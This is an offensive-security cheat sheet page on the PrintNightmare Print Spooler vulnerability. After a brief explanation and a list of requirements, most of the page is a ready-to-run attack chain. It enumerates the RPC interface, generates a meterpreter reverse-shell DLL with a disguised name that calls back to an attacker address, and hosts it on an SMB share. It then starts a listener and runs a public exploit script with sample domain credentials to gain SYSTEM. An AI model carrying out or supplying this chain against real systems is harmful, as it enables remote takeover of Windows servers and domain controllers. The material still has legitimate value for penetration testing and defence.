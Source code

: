 # PrintNightmare

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**PrintNightmare**</mark> is the nickname given to two vulnerabilities (**CVE-2021-34527** and **CVE-2021-1675**) found in the Print Spooler service that runs on all Windows operating systems.&#x20;

> Basically it's just <mark style="color:purple;">**RCE**</mark> as **SYSTEM**, via printer driver **DLL injection** through RPC interface of Print Spooler.

<mark style="color:red;">**Print Spooler**</mark> is a Microsoft <mark style="color:purple;">**built-in service that manages printing jobs**</mark>. It is enabled by default and runs within the SYSTEM context.

* **MS-RPRN** – The main protocol for managing printers and print jobs remotely. It handles tasks like listing printers, sending print jobs, and configuring settings.
* **MS-PAR** – Adds support for asynchronous operations to improve performance. It allows non-blocking calls, like getting print job updates without waiting.
* **MS-PAN** – An extension to MS-RPRN that supports newer features. It enables enhanced printer capabilities used in modern Windows systems.

### <mark style="color:blue;">Requirements</mark>

* Print Spooler enabled on target (e.g., DC or file server)
* RPC/SMB access (ports 135, 445)
* Attacker has **write access** to printer driver path

## <mark style="color:yellow;">FLOW</mark>

1. Create a malicious DLL
2. Host SMB share, or put DLL into accessible share
3. Trigger DLL install via RPC call
4. Catch reverse shell or payload (Or do anything depends on your payload)

## <mark style="color:yellow;">LINUX</mark>

#### MS-RPRN Enum

```bash
rpcdump.py @13.13.13.13 | egrep 'MS-RPRN|MS-PAR'
```

#### DLL Payload Generation

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=13.13.13.13 LPORT=8080 -f dll > defnotsusfile.dll
```

#### Creating a share

```bash
sudo smbserver.py -smb2support CompData /path/to/defnotsusfile.dll
```

#### Turning on multi/handler

```bash
msf >> use exploit/multi/handler
...
```

#### Running exploit [\[LINK\]](https://github.com/cube0x0/CVE-2021-1675)

```bash
sudo python3 CVE-2021-1675.py militech.local/sreed:password123@13.13.13.13 '\\13.13.13.13\CompData\defnotsusfile.dll'
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.thehacker.recipes/ad/movement/print-spooler-service/printnightmare" %}
